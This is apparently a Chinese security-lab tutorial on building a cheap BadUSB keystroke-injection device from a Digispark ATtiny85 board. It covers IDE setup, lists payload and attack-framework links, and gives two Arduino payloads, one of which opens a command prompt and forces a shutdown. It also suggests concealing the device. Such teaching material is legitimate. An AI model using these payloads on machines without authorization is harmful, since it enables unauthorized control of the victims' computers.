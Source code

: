 # HID-Digispark

<p align="center">
    <img src="../../../../assets/img/banner/HID-Digispark.jpg">
</p>

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**文章/教程**
- [digispark:tutorials:connecting [Digistump Wiki]](http://digistump.com/wiki/digispark/tutorials/connecting)
- [使用Digispark和Duck2Spark打造一个廉价USB橡皮鸭](https://www.freebuf.com/articles/system/185293.html)
- [7块钱的BadUSB](https://mp.weixin.qq.com/s/mIcRNcf5HmZ4axe8N92S7Q)
- [Attiny85微型 USB接口开发板 Digispark kickstarter扩展板](https://detail.tmall.com/item.htm?id=543191001622)
- [Digispark(ATTINY85) 微型开发板驱动安装与开发环境配置教程](http://www.cnblogs.com/Mayfly-nymph/p/9293806.html)
- [如何给Digspark ATTINY85下载程序](https://blog.csdn.net/terminaterfxy/article/details/79623152)
- [Linux Conflict w/ Digistump DigiKeyboard.h include](https://forum.arduino.cc/index.php?topic=565616.msg3853561)

**资源**
- [DigiKeyboard_DE/DigiKeyboard.h](https://github.com/BesoBerlin/DigiKeyboard_DE/blob/master/DigiKeyboard.h) - keyboard库文件
- [PlatyPew/Digispark-Duckduino](https://github.com/PlatyPew/Digispark-Duckduino) - payload
- [mame82/duck2spark](https://github.com/mame82/duck2spark) - payload 翻译脚本
- [toxydose/Duckyspark](https://github.com/toxydose/Duckyspark) - payload 翻译脚本
- [thewhiteh4t/flashsploit](https://github.com/thewhiteh4t/flashsploit) - 基于 ATtiny85 的 HID 攻击的开发框架

---

# 简介

Digispark 是一个基于 ATTINY85 微控制器的 USB 开发板，体积小且价钱便宜，功能方面则没有 Arduino 般强大。代码与 Arduino 大同小异，更可贵的是使用 Arduino IDE 来开发。

淘宝上直接搜索 Digispark 就能看到了，价格在7元左右。

![](../../../../assets/img/安全/实验/Misc/HID-Digispark/2.jpg)

![](../../../../assets/img/安全/实验/Misc/HID-Digispark/10.jpg)

---

# 配置环境

先安装 Arduino IDE

从官网按照自己的操作系统下载并安装 https://www.arduino.cc/en/main/software

> 我使用的是 1.8.5 版本,正常使用，但其他部分版本有BUG

安装完成后，打开 Arduino IDE 应用程序，依次选择 File -> Preferences ，并在字段名为“Additional Boards Manager URL”的输入框中，输入以下 URL。
```
http://digistump.com/package_digistump_index.json
```

> 注:如果速度慢可以配置代理

![](../../../../assets/img/安全/实验/Misc/HID-Digispark/3.png)

![](../../../../assets/img/安全/实验/Misc/HID-Digispark/4.png)

安装 Digispark 的驱动(32位操作系统和64位操作系统安装程序不同)

https://github.com/digistump/DigistumpArduino/releases/download/1.6.7/Digistump.Drivers.zip

运行 Install Drivers.exe

进入“工具”菜单，然后选择“开发板”子菜单 - 选择“开发板管理器”

![](../../../../assets/img/安全/实验/Misc/HID-Digispark/5.png)

然后从类型下拉菜单中选择“贡献”， 选择“Digistump AVR Boards”包，然后单击“安装”按钮

![](../../../../assets/img/安全/实验/Misc/HID-Digispark/6.png)

> 注:再次强调,如果速度慢可以配置代理

最后，打开 Tools -> Board，然后选择 Digispark (Default — 16.5mhz)并将其设置为默认值。

![](../../../../assets/img/安全/实验/Misc/HID-Digispark/7.png)

---

# 使用

用无害的 payload 演示
```c
#include "DigiKeyboard.h"

void setup() {
DigiKeyboard.delay(1500);
DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);//win+r
delay(200);
DigiKeyboard.println("NOTEPAD");
DigiKeyboard.println();
delay(500);
DigiKeyboard.sendKeyStroke(KEY_SPACE,MOD_CONTROL_LEFT);
delay(200);
DigiKeyboard.print("just test");
DigiKeyboard.println();
}


void loop() {
}
```

将上面的代码复制到软件中,点击左上角 "验证" 按钮,等待编译完成,检测代码是否有误.当然你可以跳过这一步直接点击上传 :)

![](../../../../assets/img/安全/实验/Misc/HID-Digispark/8.png)

> 注意：在调用上传之前，不需要插入Digispark

点击上传按钮。底部状态框现在会要求插入Digispark - 插入它 - 或者拔下并重新插入它。

![](../../../../assets/img/安全/实验/Misc/HID-Digispark/9.png)

enjoy :)

**关机**
```c
#include "DigiKeyboard.h"

void setup() {

  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);//win+r
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd");
  DigiKeyboard.delay(500);
  DigiKeyboard.println("shutdown -f -s -t 10");
}

void loop() {

}
```

---

# Tips

- 可以使用一些热缩管来为你的 Digispark-Ducky 提供电绝缘，机械保护，密封及隐藏。
- 键盘映射见 DigiKeyboard.h 文件

